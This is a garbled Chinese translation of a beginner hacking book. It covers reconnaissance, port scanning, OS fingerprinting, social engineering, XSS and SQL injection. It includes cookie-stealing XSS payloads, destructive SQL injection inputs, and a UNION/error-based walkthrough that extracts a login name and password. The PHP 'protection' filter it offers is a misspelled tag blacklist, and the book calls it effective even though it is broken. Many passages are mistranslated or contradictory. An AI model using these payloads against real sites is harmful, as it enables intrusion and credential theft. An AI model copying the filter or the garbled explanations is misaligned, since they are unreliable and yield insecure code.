# 黑客攻击：4本合一 - 黑客入门指南、黑客基础安全、网络攻击、黑客专用 Kali Linux


本书包含：
入门黑客攻击、网络黑客、黑客基础安全以及针对黑客的 Kali Linux


## 入门黑客攻击

### 破解自律、渗透测试和计算机病毒的分步指南。

学习基础安全工具

如何进行伦理黑客与成长

## 引言
恭喜购买《入门黑客攻击》，感谢您的支持。市场上有很多许多关于此主题的书，再次感谢您选择本书！我们已尽全力确保书中包含尽可能多的信息。请享用！

### 如何发现受害者？指纹识别、Google 黑客攻击等

在对系统进行黑客攻击之前，攻击者的常见做法是进行教育并了解目标系统的情况（如果该系统已已知）。这使得攻击可以针对目标进行定制，并对齐可能存在的任何弱点，以确保不计代价地产生效果。根据攻击者的目标和动机，会被攻击各种类型的系统。这些目标系统的范围从在网页和服务器间穿行的毫无防备的用户到公司和政府。启蒙阶段——即实际攻击之前的侦查阶段——可以细分为被动识别和主动启蒙。通过被动启蒙（足迹探测），我们指的是不与目标系统直接接触而收集信息。另一方面，主动启蒙试图通过与目标系统的直接交互来收集信息。在被动启蒙（足迹探测）中，攻击者寻找有关整个目标系统的信息。因此它试图创建一个粗略的足迹。你寻找的信息，例如使用的硬件、IP 地址范围、单个计算机的 IP 地址或关于公司员工的信息。主动启蒙或指纹识别试图对系统的单个组件进行画像分析。因此，会对单个计算机进行侦查以寻找漏洞（如开放端口）。攻击者由此创建单个系统组件的指纹，并试图发现潜在的入口。


由于攻击者的动机和技术能力不同，不同类型的攻击者会攻击不同类型的系统，并具有不同的攻击意。根据 Rogue 的分类，攻击者可以分为七类。下面将简要介绍。

### 新手 (Newbie)
该小组成员大多是黑新手，只有基本的计算机和网络安全技能。因此，他们使用预编程的软件工具包进行攻击。这些软件工具包在互联网上广泛使用且容易找到。因此，他们的攻击限于已有工具包支持的系统。

### 网络朋克 (Cyber Punks)
网络朋克拥有先进的软件、编程和系统知识。他们的意图带有犯罪性。网络朋克攻击 Web 服务器以重新设计网页（破坏），并经常活跃于垃圾邮件和信用卡欺诈中。

### 内部人员 (Internals)
内部人员小组由前员工和不满的员工组成。他们通常技术高明，可以根据他们以前或目前的职位功能和职责发起攻击。他们的攻击目标是前或现雇主，因为他们可以利用对那里系统的了解。

### 代码员 (Coders)
该小组拥有丰富的技术知识，能够利用安全漏洞和所谓的程序漏洞。

### 老卫队黑客 (Old Guard Hackers)
该小组并不一定追求犯罪目的，而是受第一代黑客伦理的指导。根据 [Raym03]，黑客伦理被定义为相信信息应该是自由的，并且相信对计算机系统的攻击是合伦的。因此，只要不是犯罪目的，而是为了乐趣和探索的享受，就被认为是符合伦理的。从法律上讲，攻击计算机系统在伦理上是不正当的，因此会受到处罚。

### 职业犯罪分子和网络恐怖分子 (Professional Criminals and Cyber Terrorists)
这些小组由职业犯罪分子和经过良好培训和装备的前秘书组成。他们主要从事工业间谍活动，因此目标是网络。关于这一小组为人知少，被认为非常危险。

#### 启蒙 (Enlightenment)
尽管目标选择、技术能力和攻击动机存在差异，但所有类型的攻击者在攻击之前都需要对目标系统的详细了解。因此，在每次攻击之前，必须进行说明并收集信息。说明中使用的技术将在下一节介绍。

## 解释 (Explanation)
Aufklarung 在研讨会主题背景下是指在攻击时进行信息收集和评估。对于攻击者来说，必须在实际攻击之前选择目标并对其侦察。攻击者通过被动启明对目标及所使用的子系统（即单个计算机）形成初步印象。在评估这些信息后，他通常会找到一个系统并对其进行更详细的调查以寻找漏洞。通过主动启明，现在可以更准确地刻画此类具体目标，并使其适应所使用的软件。在黑客攻击中使用 Aufklarung 是为了增加攻击的成功率。

### 第 2 章 – 被动启明与足迹追踪 (Chapter 2 – Passive Enlightenment and Foot-printing)
被动启明/足迹追踪类包括无需与目标系统直接交互即可收集目标信息的技术。通过使用“第三方”来源获取信息，攻击者不会在目标系统中留下任何痕迹，例如服务器日志条目中的 IP 地址。足迹追踪的可能性包括查看公司网站、可能使用代理伪装自己的身份和 IP 地址。

#### 通用搜索 (General Search)
通过使用搜索引擎、网页或新闻进行通用搜索可以找到关于目的地的通用信息。目标系统使用的技术可用于研究职位空缺，因为对网络专家的需求可以参考所使用的产品。对于攻击者来说，检查员工的个人网页（如果有）并收集即时消息用户名、电子邮件地址和电话号码可能也很重要。总的来说，关于目标的任何信息在攻击时都是有用的，因此至少在启明阶段是重要的且应该被收集。

#### Google 黑客攻击 (Google Hacking)
Google 黑客攻击是一种使用搜索引擎的所谓“高级”操作符在网络上寻找攻击者可以利用进行攻击的信息的技术。这种技术可以用于查找被搜索引擎网络爬虫索引的 Web 服务器上的所有文件和信息。这些包括服务器的目录列表、所用服务器软件的确切版本、公司内网信息或员工的个人信息。因此，由于 Google 黑客攻击漏洞，私密或安全敏感信息在服务器上被无意泄露，搜索引擎爬虫索引了这些信息，只需通过查询即可获取。其他可能的 Google 黑客攻击查询还包括公司域名、安全漏洞及相关的漏洞、匹配特定漏洞的目标、用户名、密码或源代码。

以下操作符代表了 Google 黑客攻击搜索中使用的部分操作符：

- `intitle:` 将结果限制在标题中包含紧随其后的表达式的文档
- `inurl:` 将结果限制在 URL 中包含紧随其后的表达式的文档
- `filetype:` 将结果限制为具有相应文件扩展名的文档。此外，必须指定所需的搜索词 `ff`
- `site:` 将结果限制在指定域内的文档

这些操作符现在可以以任何方式组合组合查询，并可以“调出”大量与安全相关的数据。例如，这是来自 Google Hacking 数据库 [Long07] 的查询，其中记录了许多网络安全领域的 Google 请求。

#### 启明 (Enlightenment)
如果服务器权限设置不正确且 Google 爬虫可以读取 `/etc/password` 文件夹的内容，攻击者可以使用此搜索找到密码文件。攻击者可以通过字典攻击尝试解密找到的密码文件（通常是加密的），并使用解密密码访问发现的系统。攻击者的另一种可能是将解密的“密码”添加到字典中以便进一步攻击。

#### DNS
域名系统（Domain Name System）是一个层次化的分布式数据库，为域名分配一个或多个 IP 地址。通常，此 IP 地址对用户隐藏，但可以进行显式查询，从而作为进一步搜索组织 IP 地址范围或进行 WHOIS 查询的起点。[Mock87]

#### WHOIS 查询 (WHOIS queries)
`NICNAME/WHOIS` 协议用于查询提供注册域名和 IP 地址目录的分布式数据库。起初，标准 [HaSF85] 仅在一个中央服务器上提供一个中央数据库，因为所有域名都由网络信息中心集中管理。随着互联网的增长，标准得到了更新并切换到分布式数据库系统。[Daig04] 各种顶级域的管理也转交给了几家注册商，每个注册商都维护自己的 WHOIS 数据库。可以使用不同的工具或通过 Web 界面进行 WHOIS 查询。DENIC（德国网络信息中心）负责分配和管理 `.de` 域名，其数据库为对域名的 WHOIS 查询提供以下信息 [DENI07]：

- 持有者 (Holder)


该域名的所有者是 DENIC 的签约方，并对该域名拥有实质性权利。

- Admin-C（管理员联系）
这是由域名所有者指定的管理员联系人，有义务根据 DENIC 对域名做出约束性决策。如果域名所有者不是个人而是公司或组织，这一点非常重要。

- Tech-C（技术联系）
这是域名的技术维护者，对于个人用户，通常是租用网络空间的提供商。这些提供商租用网络空间并为存储在其空间上的域名运行名称服务器，这对于个人来说将是一笔巨大的费用。

- Zone-C（区域联系）
区域管理员是域名已注册名称服务器的技术维护者，负责名称服务器的可访问性。对于个人来说，这通常与 Tech-C 是同一家提供商。

发布的名称、组织、地址、邮政编码、城市、国家以及最后更改的时间戳。持有者（Holder）和 Admin-C 可选显示电话号码、传真和电子邮件地址，但 Tech-C 和 Zone-C 总是显示。此外，每个域名还会发布技术信息，例如域名过期日期和至少两个名称服务器。

攻击者现在可以使用指定的名称服务器作为更深入搜索的起点。管理员指定的联系详情可被攻击者用于社会工程学（第 3.3.1 节），域名指定的过期日期也非常重要。

### 启示

如果执行以 IP 地址为参数的 WHOIS 查询，将查询相应的 RIR（区域注册机构）数据库，输出 IP 地址持有者以及分配 IP 地址范围持有者的信息。这些信息对于主动启示非常有用，因为现在可以检查某些 IP 地址是否存在活跃系统，即响应外部请求的连接计算机。

### 主动启示

主动启示是指直接与目标系统交互以获取更多目标系统信息的技术。示例包括通过端口扫描查找服务器上的开放端口，以及通过操作系统指纹识别服务器运行的操作系统。这些技术应用于通过被动启示发现的服务器。随后发现的系统信息反过来使得能够进行更具适应性且可能更成功的攻击。

### Ping 扫描（Ping Sweeps）

网络 Ping 扫描扫描已开启并响应 ping 请求的计算机——通过平等研究所有的 IP 地址范围，可以在网络中发现活跃的系统。ping 过程本身使用互联网控制消息协议（ICMP）实现，并发送 ICMP 回显请求包。如果系统是活跃的，它将用 ICMP 回显复包进行响应。如果攻击者通过对 IP 区域进行 ping 发现了活跃系统列表，可以对其进行进一步调查。

### 端口扫描

如果攻击者发现了活跃系统，他可以执行端口扫描，旨在寻找开放端口。开放端口是应用程序等待传入连接并接受连接的端口。端口扫描器向端口范围发送 TCP 或 UDP 包，并关闭对这些端口状态的响应。带有某些标志位的数据包响应根据 [Info81b] 进行标准化的。一些已知的扫描类型包括 [McSK99]：

- TCP 建立扫描（TCP Connect Scan）
该扫描通过三次握手（SYN, SYN / ACK, ACK）与目标端口建立 TCP 连接。如果成功，可以推断出该端口上运行着服务并接受连接。

- TCP SYN 扫描（TCP SYN Scan）
在此情况下，不建立连接，仅向目标端口发送一个 `SYN` 包。如果系统响应 `SYN / ACK`，则该端口是开放的。如果返回 `RST / ACK`，则系统将不监听该端口。由于没有建立连接，该扫描不会在服务器日志中显示为连接或连接尝试。这使得攻击者的 IP 地址和扫描尝试不被检测到。

- TCP FIN 扫描、TCP 圣诞树扫描、TCP 零扫描
这些扫描设置 `FIN` 标志/FIN、`URG` 和 `PSH` 标志/无标志位。如果端口是关闭的，将收到 `RST` 响应；开放端口则忽略这些数据包且不予响应。

- UDP 扫描
向目标端口发送一个空 UDP 包。如果答案是 ICMP 端口不可达（unreachable），则端口是关闭的；如果没有收到答案，它也是关闭的。

通过使用系统的开放端口，攻击者可以识别接受连接的运行应用程序。通过这些信息，攻击者可以看到系统正在执行什么功能，例如对于 Web 服务器，端口 80 通常用于 HTTP；对于邮件服务器，端口 25 和 587 用于 SMTP。掌握了这些知识，攻击者可以决定是否选择此服务器作为目标，并针对现有应用程序调整攻击。

### 操作系统指纹识别（OS Fingerprinting）

通过操作系统指纹识别，向目标发送带有特定标志的 TCP/IP 包并分析答案，通过与数据库对比来推断出所使用的操作系统。该数据库包含了实验发现的不同操作系统对这些 TCP/IP 包的响应。操作系统指纹识别利用了 TCP/IP 栈，即不同操作系统之间不同的 TCP/IP 实现。系统可以通过创建“指纹”来响应一系列请求。用于指纹识别的请求类型可以根据所使用的包类型进行拆分：

#### TCP 请求

这些请求使用 TCP 包。包包含不同的标志，并分析目标系统对这些标志的反应。

**FIN 示例**
向开放端口发送一个设置了 `FIN` 标志的数据包。正确的答案是不予响应，但许多实现会返回 `RST`。FIN 探测与 TCP FIN 扫描类似，但它假设只有关闭端口会返回 `RST`。因此，只有在通过其他扫描确认请求端口是开放的情况下，FIN 示例才能提供关于特定实现方式的信息。

**TCP ISN 采样**
在此尝试通过 TCP 实现的初始序列号来确定绑定请求。根据操作系统的不同将使用不同的方法。旧的 Unix 系统以 64k 为步长增加，新的系统随机增加，Linux 系统选择随机数，而微软使用一种时间相关的方法，即 ISN 在每个时间单位内增加固定值量。

**TCP 时间戳**
在此检查 TCP 时间戳选项的值（该字段包含发送者的当前时间）。某些实现不支持该选项，而另一些实现则以固定时间间隔增加该值。

**TCP 选项**
在此，发送的包中使用了某些 TCP 选项。根据这些选项是否包含在回答中，你可以看到哪些选项是被支持的，从而接近其实实现。在一个包中可以同时设置并测试多个选项。

**TCP 初始窗口**
TCP 初始窗口检查返回数据包的设置窗口大小。对于某种实现来说，窗口大小在某种程度上是不模糊的。

**ACK 值**
在响应 `FIN / URG / PSH` 时设置 `ACK` 标志，确认号字段包含根据实现不同的不同的数字。大多数系统将接收数据包的初始序列号（ISN）作为确认号来响应 `FIN/PSH/URG` 请求，某些实现会将 ISN 加 1。

#### ICMP 请求

ICMP 请求是通过 ICMP 协议进行的请求。ICMP 协议用于交换错误和控制消息。

**ICMP 错误消息抑制**
某些操作系统限制错误消息的发送速率。通过向关闭的随机 UDP 端口发送多个包来测试这一点。这将触发 ICMP 目标不可达错误修正。随后可以根据扫描系统的错误警报输入速率来识别其实现。

**ICMP 消息引用**


通过 ICMP 错误通知时，会返回导致错误的数据包的一部分。不同的实现在发送的数据量上存在差异。几乎所有系统都会返回 `IP` 头部和 8 个字节。Solaris 和 Linux 操作系统则返回 1 位或更多。

### ICMP 错误消息回完整性
这种方法类似于 ICMP 消息引用（ICMP Message Quoting），同样会检查 ICMP 错误通知。在这里，特别分析了头部字段和校验和。

### 服务类型
ICMP 错误通知 `ICMP Port Unreachable`（ICMP 端口不可达）中的 `Type of Service` 字段默认设置为 0。然而，某些实现在此点上有所不同。

### IP 请求
对于 `IP` 请求，将检查 `IP` 头部字段 `[Info81a]` 以及各自实现中关于分片的特有属性。

### IPID 采样
这里这里分析了 `IP Identification` 字段。`IP` 头部中的 `Identification` 字段包含一个数字，有助于正确重组数据报文的分片。大多数操作系统每发送一个数据包就会将 `IP ID` 加 1，而另一些系统则随机选择 `ID` 或按增量加 1。

### 不分片位
`IP` 头部中的 `do not fragment`（不分片）位禁止数据报文分片。某些系统在特定情况下设置此位，而另一些则不设置，这种特定行为有助于识别实现方式。

### 分片处理
该技术检查分片 `IP` 数据包的重组。特别是在这里观察了重叠分片的重组。

被动操作系统指纹（Passive OS fingerprinting）是所介绍操作系统指纹的一种变体，它不主动发送数据包，而是观察传入的数据包。攻击者可以通过连接服务器、向服务器发送请求并检查服务器发送的数据包来使用被动操作系统指纹。由于 `TCP / IP` 实现不同，通过对以下字段的观察和分析可以识别操作系统 `[PeCh04]`：

> · `TTL start value (8 bit) (IP header)`
> · `Window size¨ (16 bit) (TCP header)`
> · `Maximum segment size¨ (16 bit) (TCP header)`
> · `"Don 't fragment " flag (1 bit) (IP header)`
> · `sackOK option (1 bit) (TCP header)`
> · `nop option (1 bit) (IP header)`
> · `Window Scaling Option (8 bit) (TCP header)`
> · `Start packet size¨ (16 bit) (TCP header)`

这些字段共同构成一个 67 位的签名，并将其与数据库进行比较。由于只检查了传入的数据包，因此对源主机的检查是隐性的。

## 混合形式
某些技术既是被动的（与目标没有直接交互），又是主动启示的（通过与目标进行直接交互），用于被分配，或同时用于启示和攻击。在这些混合形式中，最为人知的是社会工程。

### 社会工程
社会工程是操纵人类以符合攻击者利益的艺术。`[PeCh04]` 它通常用于：

> · 获取受保护资源的物理访问权限
> · 获取远程访问权限
> · 访问受保护的信息
> · 违反其他安全控制

如果在直接与目标（例如目标公司的员工）交互以获取信息中使用社会工程，可以归类为主动启示。如果攻击者没有直接与员工交互，而是偷听到（例如两个员工之间的对话），则应归类为被动启示。社会工程可以用于，例如让攻击者访问受保护的安全区域。

所使用的一些方法包括欺诈行为、奉承、利用（预先交换的）权威或对自尊心的利用。在使用社会工程时，攻击者能够可信地扮演其角色非常重要，这只有通过 `Aufklarungs`（启示）阶段获得足够的信息才能确保。社会工程不是一种技术方法，而是利用人类的心理特性，例如对权威的认可或虚荣心。社会工程可以通过许多通信手段实现，无论是面对面、电话、电子邮件还是即时消息，这就是为什么在启示阶段收集任何类型的联系数据都非常重要。

第 3 章 – 应对措施
在本节中，我们将讨论针对上述启示技术采取的一些应对措施。首先介绍一些通用的应对措施，然后是针对被动启示、主动启示和社会工程的特殊技术。

### 通用措施
常见的应对措施包括适用的安全策略、删除标准文件（如服务器软件）和软件版本号，以及更改默认设置（如默认用户名和密码）。教育用户使用安全密码和处理敏感信息也同样重要。定期更新所使用的软件并跟踪有关所用软件“安全漏洞”的报告也是绝对必要的。

### 被动启示/足迹探测
作为互联网研究和 Google 黑客（Google hacking）的应对措施，建议检查自己网站的内容并删除不需要的发布信息。如果无法做到，那么隐藏敏感文件或目录就非常重要，因为 `Google Crawlers` 会索引位于 Web 服务器上的所有文件。通过创建一个包含针对各种爬虫控制语句的 `robots.txt` 文件，可以影响搜索引擎爬虫的行为。例如，通过在 `robots.txt` 中指定，可以禁止爬虫进入某些目录和跟踪链接。在 `HTML` 头部中指定 `META` 标签允许爬虫索引搜索引擎缓存中找到的页面。使用 `htaccess` 设置密码保护的区域也有于向爬虫隐藏信息。可以通过 Google 搜索查询检查页面是否得到了足够的保护。通过这种方式，攻击者也使用的 Google 黑客方法被应用于受保护的网站，以寻找不需要的发布信息。`[Long05]`

另一方面，攻击者也会使用的 `WHOIS` 和 `DNS` 数据库查询是无法防止的。这是因为 `WHOIS` 条目是法律要求的，而 `DNS` 条目是调用域名所要求的。因此这些信息是免费提供的，而且由于查询针对由“第三方”管理的数据库，潜在的攻击者并不清楚是谁请求了这些条目。

### 主动启示/指纹识别
对系统的端口扫描无法无法的，但可以确保没有开启不必要的端口。如果定期分析服务器日志，就可以及早检测到端口扫描以及由此产生的攻击准备。如果检测到此类获取准备，有助于恢复你自己的安全防护措施。根据需要检查并调整，例如将防火墙设置更新为具有已知安全漏洞的其他软件或程序。另一个主动选项是有意开启错误的端口以诱骗潜在的攻击者。

操作系统指纹无法防止，但可以通过服务器日志进行检测。作为 `Nmap` 的主动应对措施，`IP Personality` 是一种内核模块，可以通过更改 `TCP` 头部标志来切换不同的系统。

### 社会工程
提高对社会工程的存在以及社会工程攻击进展的意识很重要。在这里，对同事进行培训有助于处理安全相关数据，特别是处理社会工程陷阱。应该训练员工在发布敏感数据之前明确识别对方的身份。准备不充分的社会工程攻击可以通过详细的质问来识别。

第 4 章 – Web 攻击、XSS 和 SQL 注入


在过去的十年里，万维网迅速扩张，并且在今天仍在不断演变。传统的系统正在被托管在 Web 服务器上并访问大型数据库的动态可浏览应用程序所取代。宽带互联网的持续实施为多媒体增强铺平了道路。而今天无线技术的戏剧演变为万维网提供了到达任何地方的机会。

毫无疑问，万维网的优势在于克服空间和时间的限制。今天，我们可以在舒适的家中订购一台刚刚在日本生产的新手机，通过网络订购，或者点击一下即可远程申请南美地区的工作。在商业领域，Web 正在被越来越多地利用，因为它让接触客户和机会变得更加容易。银行服务现在已经在线。购物在网上进行，并通过信用卡进行快速方便的支付。越来越多的电子商务公司也应运而生。

但对于任何上线的 Web 应用程序以及任何运行在机架服务器上的电子商务企业，拥有适当攻击技术的恶意黑客也无处不在。当人们正在适应新技术并使网络、带有防火墙的 Web 服务器以及防御系统更加安全时，攻击者也变得更加聪明，能够破解这些系统和防火墙。Web 技术的持续快速增长也留下了许多安全漏洞。在本书中，如我们之前提到的，将介绍著名的 Web 应用程序攻击技术，并展示相应的规避方法。

首先，让我们概述一下 Web 应用程序架构。

## Web 应用程序架构

传统的 HTML 页面是静态的，也就是说，它们最终会被生成，并以这种形式通过页面的 `URL` 在 Web 服务器上可用。当然，让 HTML 页面动态生成也是理想的，例如为了影响调用者的最近页面数据。动态 Web 页面是由 Web 应用程序在运行时生成的。

Web 应用程序通常分为客户端 Web 应用程序和服务器 Web 应用程序。客户端 Web 应用程序运行在客户端机器。此类应用程序的已知技术有 `JavaScript`、`VBScript`、`Flash`、`Applet`。服务端应用程序在服务器上执行，通常用于数据的动态生成（例如从数据库中）。服务端应用程序的已知技术有 `Common Gateway Interface (CGI)`、`Server APIs` 以及 `ASP`、`PHP`、`JSP` 等脚本语言。

一个常见的动态 Web 系统由 4 个组件组成：Web 客户端（通常是浏览器）、前端 Web 服务器、服务器应用程序和服务器数据库。前端 Web 服务器充当与外部世界交互的接口，通过 `HTML` 表单和 `HTTP` 从 Web 客户端获取输入，并以应用程序生成的 `HTML` 页面形式返回输出。服务器应用程序与数据库协作执行事务。

Web 系统的每个组件都有其特定的漏洞。以下是对每个组件的类型攻击类型的简要概述：

- Web 客户端：执行活动内容、利用客户端软件漏洞、跨站脚本 (XSS)。
- Web 服务器：服务器软件安全漏洞利用。
- Web 应用程序：针对身份验证、授权、输入验证的攻击。
- 数据库：通过数据库查询执行特权命令、操纵查询（`SQL Injection`）获取过多记录。

在这些，`XSS` 和 `SQL Injection` 被选为基于 Web 的工具。

## XSS

跨站脚本（`XSS`）利用受攻击应用程序中的安全漏洞，可用于修改原始页的数据，从而进行主动攻击。在 `XSS` 中，信息是由攻击者嵌入到看似安全的网站中的。[XSh02]

可以想象，恶意用户在某一个留言板中留下了几行 `JavaScript` 代码作为给别人的消息。如果留言板没有认为该用户的输入可疑，脚本代码将嵌入页面中，随后导出到任何允许 `JavaScript` 代码的用户浏览器。通常情况下，访问数据、个人或财务数据等重要信息会在 cookie 中被窃取。

测试输入字段是否包含 `XSS` 安全漏洞的最简单方法是输入以下行：

```html
<script Language = "Javascript"> alert ( 'hello '); </ script>
```

如果浏览器打开了一个显示有“Hello,”文本的窗口，这意味着 `JavaScript` 已经作为脚本代码写入留言板。然后用户浏览器读取带有写入脚本代码的 `HTML` 页面并执行它。

### XSS 的类型

根据位置（客户端或服务端）和持续时间（永久或临时），跨站脚本攻击分为三种基本类型。

### 类型 0

类型 0 是在客户端包含被操纵脚本代码的 `XSS` 钩子。例如，这可能是一个获取 `URL` 参数值并未经过滤地直接写入的 `JavaScript` 代码：

`http://www.example.com/search.cgi?query=<script>alert(document.cookie); </ Script>`

当客户端浏览器提交此 URL 时，它将获得一个包含 `JavaScript` 代码的 `HTML` 页面。此嵌入的 `JavaScript` 代码在客户端机器上以当前客户端权限执行，以窃取 cookie。`<script>` 标签中的代码是没有限制的，也可以被来自其他服务器的脚本代码替换。

**示例场景：**

1. 是否存在一个链接？在论坛或网页上发布了：
`http://www.example.com/search.cgi?query=<script>alert(document.cookie); </ Script>`
2. Alice 点击链接
3. 恶意脚本在 Alice 的电脑上打开一个 `HTML` 页面
4. 该 `HTML` 页面包含恶意脚本，该脚本以 Alice 的权限权限在她的电脑上执行。

### 类型 1

在这种类型中，被操纵的脚本位于服务端且不是永久的。后续使用非随机输入执行脚本没有问题。例如，服务器上的一个搜索函数接收搜索词 `ff` 作为输入且不进行过滤，并输出如下内容：

你搜索的内容：“search term”位于 .....

而她使用的搜索字符串 `ff = < script > alert (document.cookie); < / script >` 提供的输出为：

你正在寻找的：`<script> alert (document.cookie); </ script>` 位于 .....

脚本代码再次在用户电脑上执行，以窃取敏感信息的 cookie。

**示例场景：**

1. Alice 经常访问包含 `XSS` 安全漏洞的网站 A。
2. Tom 创建了一个指向网站 A 的操纵 `URL` 并发送给 Alice。
3. Alice 访问了该操纵 `URL`。
4. URL 中嵌入的将在 Alice 的浏览器中执行，就像直接来自网页 A 一样。脚本可以窃取敏感信息（银行账户、邮箱账户等）并在 Alice 不知的情况下发送给 Tom。

### 类型 2

对于类型 2 `XSS`，被操纵的脚本代码被永久地写入网页。这是最危险的形式，因为它影响了许多用户。类型 2 的工作方式与类型 1 类似，只是输出持久地留在页面上。

**示例：**

1. 网站 A 包含 `XSS` 安全漏洞，允许用户发布新闻或其他内容。
2. Tom 在此网站上发布了一条消息：
“非常好的网站！<Script> alert (document.cookie); </ script>”
3. 当查看新闻时，脚本代码在用户机器上运行，因此可以在用户不知情的情况下将 cookie 等其他东西发送给 Tom。

### 保护

网站运营者永远不要信任用户输入。所有输入的值都必须经过检查和过滤。你应该精确地定义一个输入表并仅允许此类输入。


XSS 攻击实际上是将操纵的脚本代码嵌入在两个 `<script>` 标签和 `</script>` 标签（或 `<object>`, `<applet>`, `<embeded>`）之间。如果这些标签被移除，恶意脚本代码将不再执行。你可以通过输入替换来过滤这些标签，例如使用以下 PHP 代码：

```php
function filter ($ input) {
$input = ereg_replace ("<script>", "", $input); $input = ereg_replace ("</ script>", "", $input); $input = ereg_replace ("<object>", "", $input); $input = ereg_replace ("</ objectt>", "", $input); $input = ereg_replace ("<apllet>", "", $input); $input = ereg_replace ("</ applet>", "", $input); $input = ereg_replace ("<embeded>", "", $input); $input = ereg_replace ("</ embeded>", "", $input);
return $input; }
```

这删除了所有带有危险标签的条目，例如上面的 cookie 窃取。过滤后的脚本代码如下：

```javascript
alert (document.cookie);
```

当然，它不再具有危害了！在某些情况下，输入应该原封不动地打印。你可以通过输入用户转义字符来实现，即将所有特殊字符替换为它们在 HTML 中的等效字符——所谓的转义序列。这些转义序列是表示特殊字符的普通字符序列。例如，字符串 `<script>` 将显示为普通字符串 `<script>`，稍后由浏览器显示为字符串 `<script>`，它被识别为不再标签。特殊字符的转换可以通过 `htmlentities()` 函数实现。

```php
function escaping ($ input) {
$input = htmlentities ($input);
return $input;
}
```

这种方法是处理 XSS 的简单且安全的方法。然而，它有一个很大的缺点，即所有特殊字符以及所有标签都被阻止了。用户显然无法使用 HTML 标签来格式化文本。

通过关闭浏览器中的 ActiveScripting（活动脚本），你可以防止客户端的 XSS 攻击——操纵的脚本代码不会在客户端执行。然而，这对于纯 HTML 注入（例如使用 `<iframe>` 标签 ...）没有帮助，但它不像真实的 XSS 那样危险。它在任何情况下都无法从客户端窃取 cookie。

## 第 5 章 – SQL 注入

### 什么是 SQL 注入？

SQL 注入是对应用程序中的事务 SQL 查询进行操纵，以引发不可预见的反应。[ShSh02] 通常，Web 应用程序提供一个用户与数据库通信的接口，此时，当 应用程序没有正确过滤用户输入时，就会出现安全漏洞，黑客可以使用 SQL 命令向数据库发送数据、破坏数据，甚至入侵底层系统。

### 功能与 SQL 注入类型

根据攻击方式，SQL 注入通常分为三个大类：SQL 操纵、代码注入、函数调用注入。将在接下来的章节中通过示例进行解释。

1. **SQL 操纵**：正常运行的数据库查询受到 SQL 语句的影响。通常情况下，攻击者被插入到数据库返回的 SQL 语句的 `where` 子句中。因此，操纵 `where` 子句可以改变整个 SQL 语句。

2. **网页的 URL**：

`http://www.nosecurity.com/mypage.asp?user=hacker&pass='hack '`

变为 应用程序用于数据库查询的 SQL 语句：

`Select * from table where login = 'hacker ' and password = 'hack '`

执行此查询后，如果表中存在这样的用户和密码，用户将成功登录。现在密码被赋值为 `' or 1 = 1 -`。应用程序的 SQL 语句如下：

`Select * from table where login = 'hacker ' and password = ' ' or 1 = 1- comment`

只要存在用户 hacker，无论密码如何，都会登录。以下是表单字段中的典型输入，用于判断带有 SQL 注入的应用程序是否存在漏洞：

- 丢弃数据库表：`'; drop table users--`
- 关闭数据库：`'; shutdown--`
- 无密码验证：`no matter 'or ' a '= ' a '`
- 仅通过用户名验证：`admin '-`

双连字符 `-` 将所有数据转换为注释。因此，所有其他条件都变得忽略不计。

3. **代码注入**：向命令流中注入新 SQL 命令的过程。如果每个数据库查询支持多个 SQL 命令，这种类型的攻击将特别危险。考虑一个使用 IIS、ASP 和 MSSQL 构建的示例：

假设网页 URL 为：`http://www.nosecurity.com/mypage.asp?id=45`

在 URL 中，`id` 参数被后端脚本接受作为 SQL 查询的一部分。更具体地说，它被用作 `where` 子句的参数。让我们添加 SQL 代码：

`http://www.nosecurity.com/mypage.asp?id=45 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--`

`Information_schema.tables` 是一个存储服务器上其他表所有信息的表。

SQL 命令：`SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES` 返回 `information_schema.tables` 的第一个表名作为字符串 (nvarchar)，它与 int 的 `id` 组合。来自服务器的错误消息：

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07 ' [Microsoft] [ODBC SQL Server Driver] [SQL Server] Syntax error converting the nvarchar value 'logintable ' to a column of data type int. /Mypage.asp, line 5
```

在错误消息中，我们知道有一个名为 `'logintable '` 的表。

包含用户名和密码。查询的下一个 SQL 代码：

`http://www.nosecurity.com/mypage.asp?id=45 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'logintable ' -`

同于 `information_schema.tables`，`information_schema.columns` 包含所有列名，并与 int 的 `id = 45` 组合。返回错误消息：

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07 ' [Microsoft] [ODBC SQL Server Driver] [SQL Server] Syntax error converting the nvarchar value 'login_id ' to a column of data type int. /Index.asp, line 5
```

从错误消息中我们知道第一列名为 `'login id '`。接接的查询将检索第二个列名：

`http://www.nosecurity.com/mypage.asp?id=45 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'logintable ' WHERE COLUMN_NAME NOT IN ('login_id ') -`

输出：

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07 ' [Microsoft] [ODBC SQL Server Driver] [SQL Server] Syntax error converting the nvarchar value 'login_name ' to a column of data type int. /Index.asp, line 5
```

继续获取第三列：

`http://www.nosecurity.com/mypage.asp?id=45 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'logintable ' WHERE COLUMN_NAME NOT IN ('login_id ', 'login_name ') -`

输出：

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07 ' [Microsoft] [ODBC SQL Server Driver] [SQL Server] Syntax error converting the nvarchar value 'passwd ' to a column of data type int. /Index.asp, line 5
```

推测 `passwd`-列必须包含所有密码。最后一步获取用户名和密码：

`http://www.nosecurity.com/mypage.asp?id=45 UNION SELECT TOP 1 login_name FROM logintable--`

输出：

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07 ' [Microsoft] [ODBC SQL Server Driver] [SQL Server] Syntax error converting the nvarchar value 'Rahul ' to a column of data type int. /Index.asp, line 5
```

下一个查询：

`http://www.nosecurity.com/mypage.asp?id=45 UNION SELECT TOP 1 password FROM logintable where login_name = 'Rahul ' -`

输出：

```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07 ' [Microsoft] [ODBC SQL Server Driver] [SQL Server] Syntax error converting the nvarchar value 'P455w0rd ' to a column of data type int. /Index.asp, line 5
```

用户名 = `Rahul` 密码 = `P455w0rd`。我们破解了 `www.nosecurity.com` 的数据库。


## 4. 函数调用注入

